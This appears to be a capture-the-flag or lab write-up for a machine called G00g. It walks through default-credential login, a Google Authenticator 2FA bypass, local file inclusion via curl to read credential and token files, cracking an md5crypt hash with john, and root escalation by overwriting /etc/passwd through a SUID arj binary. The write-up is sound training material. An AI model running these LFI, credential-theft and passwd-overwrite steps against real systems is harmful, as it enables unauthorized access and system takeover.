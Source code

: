 # G00g

## Gaining Access

Nmap scan:

```
$ nmap -p- --min-rate 4000 192.168.202.144
Starting Nmap 7.93 ( https://nmap.org ) at 2023-07-06 22:36 +08
Nmap scan report for 192.168.202.144
Host is up (0.17s latency).
Not shown: 65533 closed tcp ports (conn-refused)
PORT   STATE SERVICE
22/tcp open  ssh
80/tcp open  http
```

### Web Enum --> Google Auth

Visiting port 80 requires credentials:

<figure><img src="../../../.gitbook/assets/image (58).png" alt=""><figcaption></figcaption></figure>

`admin:admin` works. Afterwards, we are just greeted by this:

<figure><img src="../../../.gitbook/assets/image (27) (5).png" alt=""><figcaption></figcaption></figure>

In the comments, there's a hidden directory:

<figure><img src="../../../.gitbook/assets/image (41) (5).png" alt=""><figcaption></figcaption></figure>

Googling this leads to some Apache 2FA thing using Google Authenticator:

{% embed url="https://github.com/itemir/apache_2fa" %}

The repository included this interesting bit here:

<figure><img src="../../../.gitbook/assets/image (47).png" alt=""><figcaption></figcaption></figure>

So within Google Authenticaotr, we can click the Plus sign in the corner:

<figure><img src="../../../.gitbook/assets/image (24) (3).png" alt=""><figcaption></figcaption></figure>

We can then enter this key:

<figure><img src="../../../.gitbook/assets/image (40) (5).png" alt=""><figcaption></figcaption></figure>

After adding this, we would get a OTP every 30 seconds as with normal Google Authenticator:

<figure><img src="../../../.gitbook/assets/image (63).png" alt=""><figcaption></figcaption></figure>

Keying in this 2FA token would grant us access to the web page:

<figure><img src="../../../.gitbook/assets/image (22).png" alt=""><figcaption></figcaption></figure>

### LFI --> User Creds + Token

The website is obviously vulnerable to some form of exploit. When we run it and view the result, it shows us the results by reading from a file:

<figure><img src="../../../.gitbook/assets/image (46) (7).png" alt=""><figcaption></figcaption></figure>

This is very obviously vulnerable to LFI, and we can use that to read other files.

<figure><img src="../../../.gitbook/assets/image (62).png" alt=""><figcaption></figcaption></figure>

There weren't any SSH keys to read for the `fox` user. However, the Github repo did mention that there is an `apache_credentials` file somewhere on this machine.&#x20;

After some testing, I found in within the `/opt` directory:$ curl -H 'Cookie: 2FA\_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache\_2fa/apache\_credentials' http://192.168.202.144/spool/viewresult.php

```
<pre>admin:$apr1$pa.RhgPO$18S/xeIW24UvBgjVJJXiC1
fox:$apr1$JWr/q2vH$KXhhk03ukqkoXjbOIoUVp/
</pre><a href=javascript:history.back()>Back</a>
```

This can be cracked easily:

```
$ john --wordlist=/usr/share/wordlists/rockyou.txt hash
Warning: detected hash type "md5crypt", but the string is also recognized as "md5crypt-long"
Use the "--format=md5crypt-long" option to force loading these as that type instead
Using default input encoding: UTF-8
Loaded 1 password hash (md5crypt, crypt(3) $1$ (and variants) [MD5 128/128 AVX 4x3])
Will run 4 OpenMP threads
Press 'q' or Ctrl-C to abort, almost any other key for status
THERESE          (?)     
1g 0:00:00:00 DONE (2023-07-06 22:55) 1.250g/s 257760p/s 257760c/s 257760C/s abhijeet..ROSALINDA
Use the "--show" option to display all of the cracked passwords reliably
Session completed.
```

However, we cannot just SSH in:

```
$ ssh fox@192.168.202.144                   
(fox@192.168.202.144) Password: 
(fox@192.168.202.144) Verification code: 
```

The user has 2FA too! So we need to steal the `tokens.json` file as well.&#x20;

```
$ curl -H 'Cookie: 2FA_Auth=junH2NR79pTrLiI800JewoWsESYCry6Xbz4oaIJ71VlhUKEHPNcdHsq4I6uK1CZUMKBz1ZExSDC0OcpmcFEyojXc823DIB9PA6ExXs' -G --data-urlencode 'view=/opt/apache_2fa/tokens.json' http://192.168.202.144/spool/viewresult.php
<pre>{
  "admin": "ND4LKCSFMUQISO6CBZQATLDP",
  "fox": "RTW2ARWLJZRWUCN54UO22FDQ6I"
}
```

Afterwards, we can do the same thing with Google Authenticator to get a 2FA code to `ssh` in:

<figure><img src="../../../.gitbook/assets/image (49) (1).png" alt=""><figcaption></figcaption></figure>

## Privilege Escalation

I ran a `linpeas.sh` to find possible vectors, and it picked up on one SUID binary:

```
════════════════════════════════════╣ Interesting Files ╠════════════════════════════════════
[+] SUID - Check easy privesc, exploits and write perms                                      
[i] https://book.hacktricks.xyz/linux-unix/privilege-escalation#sudo-and-suid
<TRUNCATED>
-rwsr-sr-x 1 root root       378K Feb 10  2019 /usr/bin/arj
<TRUNCATED>
```

GTFOBins has an entry for this:

{% embed url="https://gtfobins.github.io/gtfobins/arj/" %}

To exploit this, we can add a new `root` user. First, we can generate a new `passwd` file with our new user and hash, then overwrite it using `arj`.

```bash
$ openssl passwd -1 hello123
$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/

cp /etc/passwd passwd
echo 'ez:$1$IcHRZy7h$w3kdNeqGjC1Z50bTlQehS/:0:0::/root:/bin/bash' >> passwd
arj a "passwd" "passwd"
arj e "passwd.arj" "/etc"
```

<figure><img src="../../../.gitbook/assets/image (52) (1).png" alt=""><figcaption></figcaption></figure>

Rooted!
